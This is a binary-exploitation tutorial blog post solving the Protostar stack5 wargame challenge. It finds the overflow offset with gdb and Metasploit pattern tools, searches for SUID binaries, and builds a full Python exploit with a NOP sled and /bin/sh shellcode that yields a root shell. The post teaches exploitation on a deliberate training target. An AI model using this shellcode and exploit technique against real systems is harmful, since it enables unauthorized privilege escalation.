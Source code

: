 ```yaml
---
layout: post
title: Buffer Overflow Practical Examples , Shellcode Injection and Local Privilege Escalation - protostar stack5
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, Exploit Development, c, Python]
image: binary-exploitation/BOF5/0.png
---
```


<hr>
### Introduction
#### Hey I'm back with another Buffer Overflow article and today we are going to do a really interesting exploit , Today we will finally escalate privileges using a vulnerable suid binary (you can know more about that by reading the [first buffer overflow article](/binary-exploitation/bof1/)) , I will also cover some interesting topics to fully understand this exploit. This is also the most realistic exploit so far. All the previous exploits wanted us to change a variable , execute a function .. stuff that are more like CTF but this time we have a realistic situation , Without wasting more time let's just jump right in.
#### Read the [previous articles](/categories) first , if you haven't done yet.
![](/images/binary-exploitation/BOF5/0.png)
<hr>
### ./Stack5
#### We have the source like all the previous challenges but this time it's actually not important.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### It just takes our input and stores it in the buffer , it doesn't even tell us about the buffer size. What about `char buffer[64];` ?  like [stack4](/binary-exploitation/bof4/) if we tried 64 chars it won't even crash. with that being said let's start.
#### As always we will start by finding out if the binary vulnerable or not (yea we already know that but it's an important enumeration step)
`python -c "print 'A' * 100" | ./stack5`
![](/images/binary-exploitation/BOF5/1.png)
#### Segmentation fault. So it crashes before 100 chars , next step is to know where exactly does it crash. We will use metasploit `pattern_create` and `pattern_offset` , I explained how does this work in [stack3](/binary-exploitation/bof3)
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF5/2.png)
#### Then we will run gdb and create a break point at `main()` , `run` the program after the break point we make it continue then pass our pattern
`break main`
<br>
`run`
<br>
`c`
![](/images/binary-exploitation/BOF5/3.png)
#### It crashes at `0x63413563` , now we will use `pattern_offset`
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF5/4.png)
#### And we get exact match at offset 76. As I said before we will exploit this binary to get a root shell , but how to know if it's a suid binary or not ? we can simply use `find` to know that
`find /opt/protostar/bin/ -perm -4000 | grep stack5`
![](/images/binary-exploitation/BOF5/5.png)
#### And we get `/opt/protostar/bin/stack5` , if it wasn't a suid binary we wouldn't get any output. If you are just searching for suid binaries you can remove the `grep` command and it will list all suid binaries in the specified directory.
<br>
<hr>
### Fun with gdb , finding EIP 
#### Now let's run gdb again and start getting useful information. Before we start I have to say that the memory addresses may differ , so mine won't be the same as yours. Last time we have overwritten the EIP address with the address of `win()` function . This time we don't have a function to execute ,we have to find the address of the EIP and make it point to our "evil input" (shellcode), I will explain in a moment.
#### We will set the disassembly flavor to intel
`set disassembly-flavor intel`
#### Then we will disassemble the main function
`disassemble main`
![](/images/binary-exploitation/BOF5/6.png)
#### By looking at that we can identify the best place to set our break point , and it's gonna be before the `leave` instruction , `leave` is right before the `return` instruction , next to `leave` we see the address `0x080483d9` so we will type :
`break *0x080483d9`
![](/images/binary-exploitation/BOF5/7.png)
#### Then we will run the program and pass any input , many A's is always good 
![](/images/binary-exploitation/BOF5/8.png)
#### It will execute and stop at the breakpoint , by typing `info frame` we can get the EIP address
`info frame`
![](/images/binary-exploitation/BOF5/9.png)
#### The last 2 lines show saved registers : eip at `0xbffff77c`
<br>
<hr>
### Another way to get the buffer size
#### Let's take a break and take a quick look at another way to get the buffer size , I wanted to show this quickly because we have already done 50 % of it ..
#### Metasploit is cool but what if we don't have metasploit in some situation ? We can do it manually by calculating the distance between the buffer start address and the EIP address , We have already got the EIP address so let's get the start of the buffer.
#### If we type `x/24wx $esp` it will show us (`x/`) 24 (`24wx`) words at the top of the stack (`$esp`).
`x/24wx $esp`
![](/images/binary-exploitation/BOF5/10.png)
#### At the second line we see this address `0xbffff730` and it holds values of `0x41414141` and we already know that 41 is the hex of "A" which was our input to the program so we know that this address is where the buffer starts. We know that the buffer comes first then the EIP so the EIP's address is greater than the buffer's address. We will substract them from each other:
`p/d 0xbffff77c - 0xbffff730`
![](/images/binary-exploitation/BOF5/11.png)
#### And we get 76 , the same result we got using metasploit. That was another practical way to find the buffer's size.
<br>
<hr>
### Idea of the exploit
#### before we build our exploit let's just understand the idea of the exploit. we will fill the buffer with "A" as always , we will reach the EIP and overwrite it with a new address that points to our shell code (4 bytes after), then we will add something called NOP (No Operation) , then finally the shellcode. Let's breakdown everything.
<br>
<hr>
### ShellCode
#### So what's a shellcode ? Simply it's a piece of code ("written in hex in our situation") that we use as a payload to execute something . `/bin/sh` for example. And this binary is suid ... so if we execute shellcode that executes `/bin/sh` with the binary we will get a root shell.
#### You can get shellcodes from [shell-storm](http://shell-storm.org/shellcode/) or from [exploit-db](https://www.exploit-db.com/) , of course there are a lot of other resources , I'm just giving examples.
#### This is the [shellcode](https://www.exploit-db.com/exploits/13357) we are going to use for this challenge :
```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
#### This shellcode executes `/bin/sh`
<br>
<hr>
### NOP (No Operation)
#### Basically no operation is used to make sure that our exploit doesn't fail , because we won't always point to the right address , so we add stuff that doesn't do anything and we point to them , Then when the program executes it will reach those NOPs and keeps executing them (does nothing) until it reaches the shellcode.
<br>
<hr>
### Building the exploit
#### In the last challenges a single python print statement solved it. This time it will be a mess so we will create a small exploit with python.
#### First thing we will import a module called struct , I will explain why in a moment.
`import struct`
#### Then we will create a variable the holds the padding (the chars to fill the buffer)
`pad = "\x41" * 76`
#### After it fills the buffer it will hit the EIP , we need the new EIP address that we will assign , as I said above we need it to be the address of the following instruction (4 bytes after the original EIP address) so it will be `0xbffff77c + 4` , google can simply give you the answer :D . it will be `0xbffff780` . We will add that value to a variable but remember we need it in reverse , That's why struct is important. if you do `import struct;struct.pack("I" , 0xbffff780)` from the python interpreter it will print `\x80\xf7\xff\xbf` , it makes life easier :D
`EIP = struct.pack("I", 0xbffff780)`
#### Then comes our shellcode
`shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`
#### Last thing is the NOP , it can be anything , so 100 chars will be good
`NOP = "\x90" * 100`
#### Ok our exploit is ready , we just need to print out the final payload so :
`print pad + EIP + NOP + shellcode`
#### Let's take a look at the script :
```
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff780)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```
![](/images/binary-exploitation/BOF5/12.png)
<hr>
### Applying the exploit
#### Now it's show time ! let's test it out.
` python /tmp/stack5.py | ./stack5`
![](/images/binary-exploitation/BOF5/13.png)
#### And we got a root shell ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Buffer Overflow article : [Buffer Overflow Practical Examples , Exploiting EIP - protostar stack4](/binary-exploitation/bof4/)
#### Next Buffer Overflow article : [Buffer Overflow Practical Examples , ret2libc - protostar stack6](/binary-exploitation/bof6/)
<hr>
